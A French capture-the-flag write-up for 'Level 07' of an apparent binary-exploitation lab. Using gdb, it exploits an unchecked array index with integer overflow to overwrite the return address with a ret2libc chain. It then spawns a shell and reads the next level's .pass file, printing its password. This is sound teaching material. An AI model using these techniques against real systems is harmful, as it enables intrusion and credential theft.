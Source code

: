 # Level 07

```
$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 0
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 420
 Index: 1
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 0
 Completed read command successfully
Input command: read
 Index: 1
 Number at data[1] is 420
 Completed read command successfully
Input command: read
 Index: -1
 Number at data[4294967295] is 0
 Completed read command successfully
Input command: store
 Number: 42
 Index: -2
 Completed store command successfully
Input command: readt
 Index: -2
 Number at data[4294967294] is 42
 Completed readt command successfully
Input command: quit
```
Ce programme nous permet de stocker des nombres dans un tableau. Cependant, certains case sont réservées pour `wil`.<br />
On peut voir que le programme utilise des entiers non signés pour stocker les index. Cela signifie que si on rentre un index négatif, il sera converti en un entier non signé. Par exemple, `-1` deviendra `4294967295` (2^32 - 1).

Après avoir disassemblé le programme, on sait que le tableau a une taille de 100 nombres mais il n'y a pas de check sur l'index.

Donc on peut trouver le offset pour pouvoir écrire dans eip avec gdb

En premier temps on va trouver l'address d'eip
```sh
(gdb) b main
(gdb) r
(gdb) i f
...
 Saved registers:
  ebp at 0xffffcc58, eip at 0xffffcc5c

```
Ensuite on va trouver l'address de stockage, en regardant dans le code disas en appercois que l'offset est de `esp + 36` et soustraire les deux address.<br/>
On va devoir aussi diviser par 4 vu que le stockage stock les nombres sont contenu en four-byte integer. On obtient bien notre offset de 114 pour écrire notre ret2libc

```sh
(gdb) p $esp + 36
$8 = (void *) 0xffffca94
(gdb) p (0xffffcc5c - 0xffffca94)
$9 = 456
(gdb) p (0xffffcc5c - 0xffffca94) /4
$10 = 114
(gdb)
```

Trouver toutes les adresses nécessaires pour faire la ret2libc
```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
```
En decimal ça nous donnes:
 - system = 4159090384
 - /bin/sh = 4160264172
 - et l'offset de eip = 114

Malheureusement 114 modulo 3 n'est pas égal à 0 donc on va devoir trouver un moyen d'écrire à 114. Donc on peut overflow ou underflow l'int.

Comme l'index fournit est un int mais que le stockage est un unsigned int on doit diviser par 4 le resultat de l'overflow (2^32 / 4) + 114

```
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

